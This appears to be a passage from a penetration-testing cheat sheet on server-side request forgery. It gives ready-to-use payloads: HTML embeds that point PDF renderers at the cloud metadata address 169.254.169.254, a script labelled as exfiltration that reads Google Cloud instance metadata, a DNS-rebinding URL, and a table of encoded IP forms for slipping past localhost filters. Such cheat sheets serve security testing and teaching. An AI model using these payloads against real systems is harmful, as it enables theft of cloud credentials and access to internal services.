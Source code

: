 ## Additional Resources
- [PayloadsAllTheThings SSRF](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery)
- [SSRF Bypass Cheat Sheet](https://portswigger.net/web-security/ssrf/url-validation-bypass-cheat-sheet)

> https://A.178.62.122.208.1time.127.0.0.1.1time.repeat.rebind.network/webhook5
[Whonow](https://github.com/brannondorsey/whonow)
[Omise DNS Rebinding SSRF](https://hackerone.com/reports/1379656)

---

## SSRF via Embeds and Iframes in PDFs
[SSRF in Real Life](https://www.cruxsecurity.ai/blog/tech-deep-dive/ssrf-in-real-life)
You can test local file inclusion too
```
<h1>SSRF test</h1>
<div>http://169.254.169.254/latest/meta-data/</div>
<div>
  <embed src="http://169.254.169.254/latest/meta-data/" style="width:100%;height:300px" />
</div>
```

## Google Cloud Platform (GCP)
To access the GCP instance metadata the following header needs to be included in the GET request:
> Metadata-Flavor: Google
```
<p>
  <div>Exfiltrated data:</div>
  <span id='result'></span>
  <script>
    exfil = new XMLHttpRequest();
    exfil.onreadystatechange = function () {
      if (exfil.readyState === 4) {
        document.getElementById("result").innerText = JSON.stringify(exfil.response);
      }
    };
    exfil.open("GET", "http://metadata.google.internal/computeMetadata/v1/instance/hostname");
    exfil.setRequestHeader("Metadata-Flavor", "Google");
    exfil.send();
  </script>
</p>```
## IP Representation Cheatsheet

### Standard Forms
localhost
127.0.0.1

### Alternative Representations
| Type        | Example             | Notes                          |
|-------------|---------------------|--------------------------------|
| Decimal     | 2130706433          | Decimal of 127.0.0.1           |
| Octal       | 017700000001        | Octal of 127.0.0.1             |
| Hexadecimal | 0x7f000001          | Hex of 127.0.0.1               |
| Mixed       | 127.1, 127.0.1      | Variations of 127.0.0.1        |
|             | 0x7f.0.0.1          | Mixed hex and decimal          |
[IP Address Variations](https://ma.ttias.be/theres-more-than-one-way-to-write-an-ip-address/)
[URL Validation By pass toolkit](https://portswigger.net/web-security/ssrf/url-validation-bypass-cheat-sheet)

### IPv6 Variants
[::1] # loopback
```